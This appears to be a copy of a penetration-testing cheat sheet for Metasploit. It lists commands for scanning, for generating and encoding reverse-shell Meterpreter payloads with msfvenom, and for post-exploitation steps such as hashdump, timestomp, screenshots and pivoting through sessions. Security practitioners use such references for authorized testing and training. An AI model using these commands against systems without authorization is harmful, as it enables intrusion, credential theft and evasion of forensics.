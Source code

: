 
# Metasploit Cheat Sheet

By Ed Skoudis and Yori Kvitchko

## Useful Auxiliary Modules

### Port Scanner
```
msf > use auxiliary/scanner/portscan/tcp
msf > set RHOSTS 10.10.10.0/24
msf > run
```

### DNS Enumeration
```
msf > use auxiliary/gather/dns_enum
msf > set DOMAIN target.tgt
msf > run
```

### FTP Server
```
msf > use auxiliary/server/ftp
msf > set FTPROOT /tmp/ftproot
msf > run
```

### Proxy Server
```
msf > use auxiliary/server/socks4
msf > run
```

- Any proxied traffic that matches the subnet of a route will be routed through the session specified by route.
- Use proxychains configured for socks4 to route any applications traffic through a Meterpreter session.

## msfvenom

### Generate Payloads
```
$ msfvenom –p [ExploitPath] LHOST=[LocalHost (if reverse conn.)] LPORT=[LocalPort] –f [FormatType]
```

**Example:**
```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.1.1.1 LPORT=4444 –f exe > met.exe
```

### Format Options (specified with –f)
```
--help-formats – Print out a summary of the specified options
exe – Executable
pl – Perl
rb – Ruby
raw – Raw shellcode
c – C code
```

### Encoding Payloads
```
$ msfvenom –p [Payload] -e [Encoder] -f [FormatType (exe, perl, ruby, raw, c)] -i [EncodeInterations] -o [OutputFilename]
```

**Example:**
```
$ msfvenom –p windows/meterpreter/reverse_tcp -i 5 -e x86/shikata_ga_nai -f exe -o mal.exe
```

## Metasploit Meterpreter

### Base Commands
```
? / help: Display a summary of commands
exit / quit: Exit the Meterpreter session
sysinfo: Show the system name and OS type
shutdown / reboot: Self-explanatory
```

### File System Commands
```
cd: Change directory
lcd: Change directory on local (attacker's) machine
pwd / getwd: Display current working directory
ls: Show the contents of the directory
cat: Display the contents of a file on screen
download / upload: Move files to/from the target machine
mkdir / rmdir: Make / remove directory
edit: Open a file in the default editor (typically vi)
```

### Process Commands
```
getpid: Display the process ID that Meterpreter is running inside
getuid: Display the user ID that Meterpreter is running with
ps: Display process list
kill: Terminate a process given its process ID
execute: Run a given program with the privileges of the process the Meterpreter is loaded in
migrate: Jump to a given destination process ID
  - Target process must have same or lesser privileges
  - Target process may be a more stable process
  - When inside a process, can access any files that process has a lock on
```

### Network Commands
```
ipconfig: Show network interface information
portfwd: Forward packets through TCP session
route: Manage/view the system's routing table
```

### Misc Commands
```
idletime: Display the duration that the GUI of the target machine has been idle
uictl [enable/disable] [keyboard/mouse]: Enable/disable either the mouse or keyboard of the target machine
screenshot: Save as an image a screenshot of the target machine
```

### Additional Modules
```
use [module]: Load the specified module

Example:
use priv: Load the priv module
hashdump: Dump the hashes from the box
timestomp: Alter NTFS file timestamps
```

## Managing Sessions

### Multiple Exploitation
```
msf > exploit -z
msf > exploit –j
```

### Job Management
```
msf > jobs –l
msf > jobs –k [JobID]
```

### Session Management
```
msf > sessions -l
msf > session -i [SessionID]
meterpreter > <Ctrl+Z>
or
meterpreter > background
```

### Routing Through Sessions
```
msf > route add [Subnet to Route To] [Subnet Netmask] [SessionID]
```

## Metasploit Console Basics (msfconsole)

### Module and Payload Management
```
msf > search [regex]
msf > use exploit/[ExploitPath]
msf > set PAYLOAD [PayloadPath]
msf > show options
msf > set [Option] [Value]
msf > exploit
```

### Post Modules from Meterpreter
```
meterpreter > run post/multi/gather/env
```

### Post Modules on a Backgrounded Session
```
msf > use post/windows/gather/hashdump
msf > show options
msf > set SESSION 1
msf > run
```
